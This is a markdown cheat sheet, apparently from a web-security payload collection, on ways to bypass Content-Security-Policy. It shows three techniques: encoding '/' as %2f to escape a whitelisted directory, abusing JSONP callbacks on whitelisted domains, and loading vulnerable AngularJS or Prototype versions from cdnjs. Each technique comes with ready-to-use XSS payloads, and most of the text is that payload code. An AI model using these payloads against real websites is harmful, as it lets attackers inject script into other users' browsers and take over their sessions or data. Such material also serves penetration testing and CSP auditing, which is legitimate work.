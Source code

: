 ## Bypass using encode '/' by [@SecurityMB](https://twitter.com/SecurityMB/status/1162690916722839552)

```http
Content-Security-Policy: script-src pastebin.com/XYZ/
```

If CSP policy points to a directory and you use `%2f` to encode `/`, it is still considered to be inside the directory. All browsers seem to agree on that. If a server decodes `%2f` it is possible to bypass CSP by using `'%2f..%2f'`. Possible payload:

```html
<script src="https://pastebin.com/XYZ%2f..%2fraw/b0Rajxqk"></script>
```

## Bypass using JSONP

```http
Content-Security-Policy: script-src 'self' https://www.google.com; object-src 'none';
```

If the `script-src` is set to `self` and a particular domain is whitelisted it is possible to bypass this using JSONP. JSONP endpoints allow insecure callback methods that allow an attacker to perform XSS. Possible payload:

```html
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
```

References:
- [JSONBee](https://github.com/zigoo0/JSONBee) contains a ready to use JSONP endpoints to CSP bypass of different websites.

## Bypass using vulnerable third-library

```http
Content-Security-Policy: script-src 'self' https://cdnjs.cloudflare.com/; object-src 'none';
```

If the `script-src` is set to `self` and a javascript library domain is whitelisted it is possible to bypass using any vulnerable version of javascript files from the library that allow you to perform XSS. Working payloads:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
 
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js"></script>
<div ng-app ng-csp>
    { { x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") } }
</div>

"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script>
<div ng-app ng-csp>
    { {$eval.constructor('alert(1)')()} }
</div>

"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"></script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>
```
